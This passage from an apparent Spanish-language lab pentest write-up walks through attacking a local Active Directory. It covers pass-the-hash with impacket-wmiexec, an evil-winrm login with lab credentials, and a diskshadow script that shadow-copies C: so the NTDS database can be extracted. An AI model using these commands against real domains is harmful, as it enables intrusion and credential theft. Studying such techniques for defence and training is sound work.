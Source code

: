 ```bash
impacket-wmiexec jcaballer.local/jcaballero1@192.168.140.131 -hashes aad3b435b51404eeaad3b435b51404ee:25262cd715d369d70e8b07628f016b17
```
Este comando evoca una shell del equipo atacado mediante el parámetro de la conexión del usuario sobre la máquina víctima y el hash NTML obtenido.

![Herramienta impacket wmiexec](impacket-wmiexec.png){: width="972" height="589" }
_Herramienta impacket wmiexec_

# Elevación de privilegios

Como se ha visto en el apartado anterior el usuario jcaballero1, pertenece al grupo de usuarios de administración remota, por lo que se puede probar mediante la herramienta [**evil-winrm**](https://github.com/Hackplayers/evil-winrm) a establecer una conexión contra el AD, con las credenciales obtenidas en los anteriores apartados.

```bash
evil-winrm -i 192.168.140.129 -u 'jcaballero1' -p 'Passjc1.'
```

Una vez conectado con la herramienta al AD se comprueba que privilegios se posee con el comando:

```bash
whoami /priv
```
![Consulta de privilegios](evil-winrm-privilegios.png){: width="972" height="589" }
_Consulta de privilegios_


Se confirma que tiene privilegios SeBackupPrivilege, con este tipo de privilegios se puede realizar una copia del sistema y del archivo SAM, para obtener los hashes de los usuarios de ese equipo, con la herramienta [**impacket-secretdump**](https://github.com/SecureAuthCorp/impacket/blob/3c6713e309cae871d685fa443d3e21b7026a2155/examples/secretsdump.py) y poder realizar un ataque Pass The Hash, pero, relacionado con la persistencia, que se verá más adelante, la copia que se debe realizar es sobre el archivo NTDS, que es la base de datos del AD que se utiliza para almacenar toda la información específica del AD. 

Para acceder a ese archivo se debe realizar una copia del sistema en una nueva unidad lógica, para ello se utilizará la herramienta [**diskshadow**](https://learn.microsoft.com/es-es/windows-server/administration/windows-commands/diskshadow). La ejecución de esta herramienta llevará como parámetro un archivo que se encarga de realizar la copia del disco C: al disco que se haya elegido, ya que no se tiene permisos para la consulta de ese disco al no ser administradores:

```bash
set context persistent nowriters
add volume c: alias jcaballero
create
expose %jcaballero% e:
```

Una vez subido el archivo al AD se ejecuta el comando:

```bash
diskshadow.exe /s c:\TEMP\diskshadow
```
